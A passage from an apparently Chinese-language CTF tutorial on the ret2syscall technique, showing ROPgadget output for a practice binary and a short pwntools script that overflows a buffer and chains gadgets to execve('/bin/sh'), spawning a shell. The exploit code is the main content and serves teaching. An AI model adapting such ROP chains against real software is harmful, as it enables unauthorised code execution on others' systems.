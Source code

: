 ```
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

此外，我们需要获得 /bin/sh 字符串对应的地址

```
➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```

可以找到对应的地址，此外，还有 int 0x80 的地址，如下

```
➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

于是写出EXP

```python
sh = process('rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
binsh = 0x080be408
int80 = 0x08049421

payload = flat(['Z' * 112, pop_eax_ret, 0xB, pop_edx_ecx_ebx_ret, 0, 0, binsh, int80])
sh.sendline(payload)
sh.interactive()
```





### ret2libc
